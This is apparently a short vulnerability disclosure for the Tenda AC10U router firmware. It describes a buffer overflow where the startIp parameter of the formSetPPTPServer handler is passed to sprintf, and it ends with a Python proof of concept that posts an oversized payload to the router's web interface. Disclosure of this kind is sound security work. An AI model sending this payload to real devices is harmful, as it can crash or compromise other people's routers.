 # buff overflow

## Tenda_AC10U_V1

version: V15.03.06.49

## Description:

There is a buff overflow in httpd/formSetPPTPServer

## Source:

you may download it from : https://www.tendacn.com/download/detail-3795.html

## Analyse:


![](../Tenda_AC6_v2/6.png)

get value from startIp ,then call sprintf, cause buff overflow

![](../Tenda_AC6_v2/7.png)


## POC
```
url = "http://192.168.1.13/goform/formSetPPTPServer"
payload = 'A'*0x1000 + '\n'

r = requests.post(url, data={'startIp': payload})
``` 
